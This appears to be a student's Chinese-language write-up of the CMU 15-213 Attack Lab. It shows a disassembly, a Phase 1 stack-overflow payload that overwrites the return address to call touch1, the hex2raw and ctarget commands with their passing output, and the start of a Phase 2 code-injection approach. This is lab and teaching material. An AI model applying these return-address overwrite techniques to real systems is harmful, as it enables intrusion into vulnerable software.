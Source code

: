 ```shell
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
填充的字节应为:
```
/* Phase1 */
ff ff ff ff ff ff ff ff /* %rsp~%rsp+7 */
ff ff ff ff ff ff ff ff /* %rsp+8~%rsp+15 */
ff ff ff ff ff ff ff ff /* %rsp+16~%rsp+23 */
ff ff ff ff ff ff ff ff /* %rsp+24~%rsp+31 */
ff ff ff ff ff ff ff ff /* %rsp+32~%rsp+39 */
c0 17 40                /* 0x4017c0 */
```
构造好后
```shell
./hex2raw < Phase1 > Phase1-raw 
```
执行
```shell
./ctarget -qi Phase1-raw
```
成功了!
```shell
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF C0 17 40
```




## Phase 2
这个问题不仅需要跳转到 `touch2()`函数,还需要修改%rdi寄存器的值传入我的cookie.
```C
void touch2(unsigned val){
	vlevel = 2;
	if(val==cookie){
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	}
	else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```
Handout提示我,这个问题需要注入代码.上课视频提到过本次lab没有使用栈随机化,这也是注入代码的前提.经过gdb调试,我发现在执行 `Gets()`函数前%rsp总是等于0x5561dc78,验证了这一点.